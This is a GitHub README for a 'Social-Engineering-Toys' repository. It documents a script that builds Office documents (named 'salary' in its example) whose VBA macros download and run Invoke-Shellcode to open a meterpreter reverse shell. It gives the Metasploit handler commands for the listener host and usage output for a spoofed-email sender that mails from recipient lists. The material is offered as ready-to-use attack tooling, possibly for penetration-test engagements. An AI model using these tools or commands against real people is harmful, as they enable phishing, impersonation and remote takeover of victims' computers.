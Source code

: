 # Social-Engineering-Toys
Social Engineering Toys  
**injectShell.py**  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```
  
  
**spoofedEmail.py**  
This script is useful in sending spoofed emails to some SMTP servers. This can be useful in social engineering engagements.    
  
Below is the help screen of the script.    
```
$ python spoofedEmail.py -h
usage: spoofedEmail.py [-h] [-f F] [-n N] [-e E] [-t T] [-iL IL] [-v]

optional arguments:
  -h, --help  show this help message and exit
  -f F        [html file containing the email body]
  -n N        [recipient name]
  -e E        [recipient email]
  -t T        [delay between 1 to x seconds (random)]
  -iL IL      [file containing recipient name and email addresses per line
              separated by comma]
  -v          [verbose]
```
  
Below is the script in action.  
```
$ python spoofedEmail.py -iL namelist.txt -f sampleHtml.txt -t 10
Sending email to: test01@example.com  
```
